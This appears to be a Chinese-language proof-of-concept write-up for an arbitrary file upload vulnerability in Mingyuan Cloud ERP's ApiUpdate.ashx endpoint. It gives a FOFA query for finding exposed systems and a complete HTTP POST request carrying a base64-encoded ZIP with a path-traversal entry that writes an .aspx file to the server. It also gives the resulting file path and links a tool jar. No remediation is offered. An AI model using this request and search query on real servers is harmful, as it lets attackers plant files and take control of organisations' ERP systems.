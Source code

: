 # 明源云ERP系统接口管家 ApiUpdate.ashx 文件存在任意文件上传漏洞

# 一、漏洞简介
明源云ERP系统是一个云端部署的ERP系统，具有高效、灵活和可定制的特点。它支持多种自定义功能，包括表单、报表、流程等，企业可以根据自身业务需求进行个性化定制，提高管理效率与操作便捷性。同时，该系统提供丰富的移动端应用，员工可以随时随地进行业务操作、数据查询与报表分析，实现高效协同，提高企业运营效率。此外，明源云ERP系统还具有精确的财务数据管理功能，通过集成各个财务子模块，实现财务数据的自动收集、整理和汇总，并自动生成准确的财务报表。总之，明源云ERP系统是一个高效、灵活、可定制的ERP系统，可以满足企业的个性化需求，并实现高效协同和精确的财务数据管理。明源云ERP系统接口管家 ApiUpdate.ashx 文件存在任意文件上传漏洞，攻击者通过构造特殊的ZIP压缩包可以上传任意文件，控制服务器。

# 二、影响版本
+ 明源云ERP系统接口管家

# 三、资产测绘
+ fofa`(body="hibot.js" || title="明源云ERP")`
+ 特征

![1705156735709-3c67057a-1062-4d33-ae3f-c47d2ecec7b8.png](./img/BzjSaX8PT1v6Uhqf/1705156735709-3c67057a-1062-4d33-ae3f-c47d2ecec7b8-848761.png)

# 四、漏洞复现
```http
POST /myunke/ApiUpdateTool/ApiUpdate.ashx?apiocode=a HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 

{{base64_decode("UEsDBBQAAAAIAPKaC1eX6YtyjAAAAJMAAAAeAAAALi4vLi4vLi4vZmRjY2xvdWQvXy9jaGVjay5hc3B4JMzLCsIwFATQXwmRQrsJCt1IqyiKUPBRWsT1bRhqIWliHoJ/b8TdMGeYOtuxlkawM81jTGHDDwvOsm2doNHWuMCupOEtyWT9xwdo0dz+E9YlMLOHeLgpIOdSlstyNax5UZ0mBXGEQup7uDecuJBtKTzzDq8IH8TdKbEfvFEx4AdFUaXbLwAAAP//AwBQSwECFAMUAAAACADymgtXl+mLcowAAACTAAAAHgAAAAAAAAAAAAAAAAAAAAAALi4vLi4vLi4vZmRjY2xvdWQvXy9jaGVjay5hc3B4UEsFBgAAAAABAAEATAAAAMgAAAAAAA==")}}
```

![1705156776315-0a29ef7c-c666-4373-934e-151a99603e60.png](./img/BzjSaX8PT1v6Uhqf/1705156776315-0a29ef7c-c666-4373-934e-151a99603e60-447163.png)

上传文件位置

```http
/fdccloud/_/check.aspx
```

![1705156800899-0428c6e3-5187-49bc-b37b-52efb3f6a0bd.png](./img/BzjSaX8PT1v6Uhqf/1705156800899-0428c6e3-5187-49bc-b37b-52efb3f6a0bd-526784.png)

[Mosaic-crypt-tools-1.5-SNAPSHOT-jar-with-dependencies.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222141911-beeed224-b25e-4b46-a48c-afe3ed72af43.jar)

![1705156847091-4e04f815-6782-4825-9a31-03bd550bb8e2.png](./img/BzjSaX8PT1v6Uhqf/1705156847091-4e04f815-6782-4825-9a31-03bd550bb8e2-864612.png)

![1705156862381-a0bb1008-1a00-4eed-b5ae-0e91d0dbbb0b.png](./img/BzjSaX8PT1v6Uhqf/1705156862381-a0bb1008-1a00-4eed-b5ae-0e91d0dbbb0b-735826.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wlaowua3lmsbig8l>